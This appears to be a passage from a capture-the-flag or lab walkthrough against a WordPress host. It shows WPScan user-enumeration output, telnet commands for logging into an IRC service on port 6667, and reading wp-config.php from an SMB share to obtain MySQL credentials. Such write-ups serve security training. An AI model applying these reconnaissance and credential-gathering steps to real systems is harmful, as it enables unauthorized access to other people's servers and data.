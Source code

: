 [32m[+][0m Enumerating Users (via Passive and Aggressive Methods)

 Brute Forcing Author IDs -: |===============================================================================================|

[34m[i][0m User(s) Identified:

[32m[+][0m View all posts by Admin
 | Found By: Author Posts - Display Name (Passive Detection)

[32m[+][0m Admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[32m[+][0m admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[33m[!][0m No WPScan API Token given, as a result vulnerability data has not been output.
[33m[!][0m You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[32m[+][0m Finished: Fri Jan 14 13:07:13 2022
[32m[+][0m Requests Done: 15
[32m[+][0m Cached Requests: 47
[32m[+][0m Data Sent: 4.344 KB
[32m[+][0m Data Received: 15.849 KB
[32m[+][0m Memory used: 185.969 MB
[32m[+][0m Elapsed time: 00:00:05

# I focus on port 6667 is internet relay chat(irc):
>> Connect this port using telnet and login using a random user.

telnet <victim_ip> 6667
USER <user_name> 0 * <user_name>
NICK <user_name>

>> login successfull.
>> i run command ADMIN ,found admin info

:Admin.local 257 ran213eqdw123 :Name     - Root Penguin
:Admin.local 258 ran213eqdw123 :Nickname - Nick
:Admin.local 259 ran213eqdw123 :E-Mail   - root@localhost

>> 

>> again login into smb server having share$ read access. then go into wordpress folder and i found
>> wp-config.php file in which username and password of mysql server are present

define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');
